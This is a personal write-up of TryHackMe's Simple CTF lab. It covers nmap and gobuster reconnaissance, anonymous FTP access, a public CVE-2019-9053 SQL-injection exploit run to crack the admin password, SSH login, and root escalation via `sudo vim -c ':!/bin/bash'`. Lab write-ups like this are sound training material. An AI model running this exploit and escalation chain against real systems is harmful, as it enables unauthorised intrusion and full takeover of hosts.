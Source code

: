 # SimpleCTF

My notes for TryHackMe's Simple CTF challenge. 

## Recon

### Nmap
`$ nmap -A TARGET_IP`
```
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.63.127
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (EdDSA)
MAC Address: 02:F5:BA:54:9A:47 (Unknown)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.13 (93%), Linux 3.8 (93%), Crestron XPanel control system (89%), HP P2000 G3 NAS device (86%), ASUS RT-N56U WAP (Linux 3.4) (86%), Linux 3.1 (86%), Linux 3.16 (86%), Linux 3.2 (86%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (86%), Linux 2.6.32 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.44 ms ip-10-10-201-203.eu-west-1.compute.internal ()

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 59.25 seconds
```

### Gobuster

`$ gobuster dir -u  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`
```
/simple (Status: 301)
/server-status (Status: 403)
```

Website running CMSMS v 2.2.8


`$ gobuster dir -u /simple -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

```
/modules (Status: 301)
/uploads (Status: 301)
/doc (Status: 301)
/admin (Status: 301)
/assets (Status: 301)
/lib (Status: 301)
/tmp (Status: 301)
```
Seems like `/admin` is the only interesting one. 

### FTP (anonymous login)

ForMitch.txt

"Dammit man... you'te the worst dev i've seen. You set the same pass for the system user, and the password is so weak... i cracked it in seconds. Gosh... what a mess!"




## Exploit



https://github.com/e-renna/CVE-2019-9053.git

`$ python exploit.py -u http://TARGET_IP/simple --crack -w /usr/share/wordlists/SecLists/Passwords/Common-Credentials/best110.txt`


```
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```

We now have access to the Admin pannel: http://TARGET_IP/simple/admin/?__c=4a7086ef3466f61107e


and ssh. 
`$ ssh -p 2222 mitch@TARGET_IP`

## Escalation

### stabalize the shell
`$ python3 -c 'import pty;pty.spawn("/bin/bash")'`

`$ cat .bash_history`

`$ sudo -l`
```
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

https://gtfobins.github.io/gtfobins/vim/

`$ sudo vim -c ':!/bin/bash'` 

We now have root!
